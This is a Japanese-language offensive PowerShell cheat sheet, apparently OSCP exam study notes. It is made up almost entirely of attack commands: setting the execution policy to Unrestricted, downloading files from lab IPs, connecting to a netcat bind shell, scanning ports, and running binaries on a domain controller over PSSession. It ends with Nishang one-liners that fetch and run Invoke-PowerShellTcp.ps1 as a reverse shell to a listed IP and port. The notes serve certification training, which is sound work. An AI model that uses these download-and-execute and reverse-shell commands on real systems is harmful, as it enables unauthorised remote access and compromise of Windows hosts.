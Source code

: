# PowerShell

### 実行権限

```powershell
powershell
Get-ExecutionPolicy -Scope CurrentUser
Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser
Get-ExecutionPolicy -Scope CurrentUser
```



### ファイル転送

```powershell
powershell -NoProfile -ExecutionPolicy unrestricted　-c "(new-object System.Net.WebClient).DownloadFile('http://10.11.0.4/wget.exe','C:\Users\offsec\Desktop\wget.exe')"
```

```cmd
powershell -NoProfile -ExecutionPolicy unrestricted -Command (Invoke-WebRequest -Uri "http://192.168.119.127:5555/exploit.txt" -OutFile "exploit.txt")
```



### ダウンロードせずに実行する場合

ps1の末尾に実行したいコマンドを記載して実行する。nishangのリバースシェルなど

※AVに検知されるので画像

![image-20230105081915662](img/powershell/image-20230105081915662.png)



### リバースシェル※AVに検知されるためここに記載することができない

OSCP_cheetsheet(Excel)に記載している。

![image-20221226084237435](img/powershell/image-20221226084237435.png)



### バインドシェル※AVに検知されるためここに記載することができない

OSCP_cheetsheet(Excel)に記載している。

![image-20221226084638580](img/powershell/image-20221226084638580.png)

* netcatでバインドシェルに接続する

  ```
  nc -nv 10.11.0.22 443
  ```

  

### チェックサム

```powershell
Get-FileHash -Algorithm "SHA256" -Path "C:\Users\student\exploit.txt"

$hash1 = ""
$hash2 = ""
$hash1 -eq $hash2
```



### ポートスキャン

```
for($i=1; $i -le 140; $i++){
	Test-NetConnection 172.50.3.1 -Port $i
}
```



### リモートホスト操作

* ホスト名の確認

```cmd
nslookup
> set type=all
> _ldap._tcp.dc._msdcs.sandbox.local

_ldap._tcp.dc._msdcs.sandbox.local      SRV service location:
          priority       = 0
          weight         = 100
          port           = 389
          svr hostname   = SANDBOXDC.sandbox.local
```

* セッションを作成する

```powershell
$dcsesh = New-PSSession -Computer SANDBOXDC
```

* コマンド実行する

  ```powershell
  Invoke-Command -Session $dcsesh -ScriptBlock {ipconfig}
  ```

* ファイルをコピーする

  ```powershell
  Copy-Item "C:\Users\Public\whoami.exe" -Destination "C:\Users\Public\" -ToSession $dcsesh
  ```

* ファイルを実行する

  ```powershell
  Invoke-Command -Session $dcsesh -ScriptBlock {C:\Users\Public\whoami.exe}
  ```




https://www.hackingarticles.in/powershell-for-pentester-windows-reverse-shell/

### Nishang

```
"iex(new-object net.webclient).downloadstring('http://192.168.119.133:8080/Invoke-PowerShellTcp.ps1')"
```

```
powershell iex (New-Object Net.WebClient).DownloadString('http://192.168.1.3/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 192.168.1.3 -Port 4444
```

